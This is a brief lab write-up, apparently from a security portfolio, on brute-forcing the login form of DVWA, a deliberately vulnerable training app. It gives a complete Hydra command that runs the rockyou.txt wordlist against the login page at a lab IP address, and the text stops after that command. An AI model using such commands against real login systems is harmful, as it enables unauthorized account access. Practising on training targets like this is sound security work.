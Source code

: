 ## 📌 DVWA Brute Force Attack

**Objective**  
Assess the effectiveness of authentication controls by simulating a brute-force attack against DVWA’s login form.

**Methodology**  
- Target application: Damn Vulnerable Web Application (DVWA)  
- Security level: *Low*  
- Attack type: HTTP POST brute force  

**Tools Used**  
- Hydra  
- Kali Linux wordlist (`rockyou.txt`)  

**Execution**  
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.30 \
http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^:Login failed"
